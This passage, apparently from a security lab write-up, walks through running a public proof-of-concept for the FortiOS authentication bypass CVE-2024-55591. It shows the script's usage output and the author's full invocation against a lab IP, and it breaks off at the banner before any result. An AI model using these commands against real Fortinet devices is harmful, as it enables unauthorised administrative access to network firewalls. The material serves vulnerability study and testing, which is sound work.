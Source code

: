 ```bash

```

Here we can see the exploit directory only contains 2 files, the exploit file written in python, and a readme file containing information about the exploit.  If we execute the exploit file with no other arguments, we get the following output with instructions / examples:

```bash
dflinton@kali:~/fortios-auth-bypass-poc-CVE-2024-55591$ python CVE-2024-55591-PoC.py 
/home/dflinton/fortios-auth-bypass-poc-CVE-2024-55591/CVE-2024-55591-PoC.py:11: SyntaxWarning: invalid escape sequence '\_'
  banner = """\
             __         ___  ___________                   
     __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
     \ \/ \/ \__  \    ___/ ___\|  |  \\|    | /  _ \ \/ \/ \_  __ \
      \     / / __ \|  | \  \\___|   Y  |    |(  <_> \     / |  | \
       \/\_/ (____  |__|  \\\\___  |___|__|__  | \\__  / \\/\_/  |__|   
                  \\          \\     \\                              

        CVE-2024-55591.py
        (*) Fortinet FortiOS Authentication Bypass (CVE-2024-55591) POC by watchTowr
        
          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2024-55591]

usage: CVE-2024-55591-PoC.py [-h] [--command COMMAND] [--user USER] --host HOST --port PORT [--ssl]
CVE-2024-55591-PoC.py: error: the following arguments are required: --host, --port
             __         ___  ___________                   
     __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
     \ \/ \/ \__  \    ___/ ___\|  |  \\|    | /  _ \ \/ \/ \_  __ \
      \     / / __ \|  | \  \\___|   Y  |    |(  <_> \     / |  | \
       \/\_/ (____  |__|  \\\\___  |___|__|__  | \\__  / \\/\_/  |__|   
                  \\          \\     \\                              

        CVE-2024-55591.py
        (*) Fortinet FortiOS Authentication Bypass (CVE-2024-55591) POC by watchTowr
        
          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2024-55591]


            Example Usage:
          - python CVE-2024-55591-PoC.py --host 192.168.1.5 --port 443 --command "get system status" --user watchTowr --ssl

```

Let's go ahead and run that example usage, with a slight modification to the target IP to reflect our own.

```bash

dflinton@kali:~/fortios-auth-bypass-poc-CVE-2024-55591$ python CVE-2024-55591-PoC.py --host 10.22.1.115 --port 443 --command "get system status" --user watchTowr --ssl
/home/dflinton/fortios-auth-bypass-poc-CVE-2024-55591/CVE-2024-55591-PoC.py:11: SyntaxWarning: invalid escape sequence '\_'
  banner = """\
             __         ___  ___________                   
     __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
     \ \/ \/ \__  \    ___/ ___\|  |  \\|    | /  _ \ \/ \/ \_  __ \
      \     / / __ \|  | \  \\___|   Y  |    |(  <_> \     / |  | \
       \/\_/ (____  |__|  \\\\___  |___|__|__  | \\__  / \\/\_/  |__|   
                  \\          \\     \\                              
```